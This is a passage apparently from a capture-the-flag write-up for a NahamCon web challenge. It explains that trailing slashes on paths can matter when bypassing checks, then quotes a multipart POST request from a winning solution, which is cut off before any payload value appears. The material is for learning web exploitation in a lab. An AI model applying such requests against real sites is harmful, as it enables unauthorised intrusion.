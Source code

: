 **Good:** ✅
- `/login/`
- `/info/`

**Bad:** ❌
- `/login` 
- `/info`

![](images/CleanShot%202025-05-26%20at%2018.15.50@2x.png)

Some websites *might* not care and just normalize it, but sometimes it **does** matter, especially if you're bypassing certain checks, using a multi-step exploit, etc.

One example of a winning solution used this request:
```http
POST /test/index.php HTTP/1.1
Host: challenge.nahamcon.com:30820
Content-Length: 382
Cache-Control: max-age=0
Origin: http://challenge.nahamcon.com:30820
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoiD63wMoFZBAlYDU
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge.nahamcon.com:30820/test/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,no;q=0.8
sec-gpc: 1
Connection: keep-alive

------WebKitFormBoundaryoiD63wMoFZBAlYDU
Content-Disposition: form-data; name="userid"

test
------WebKitFormBoundaryoiD63wMoFZBAlYDU
Content-Disposition: form-data; name="method"

```
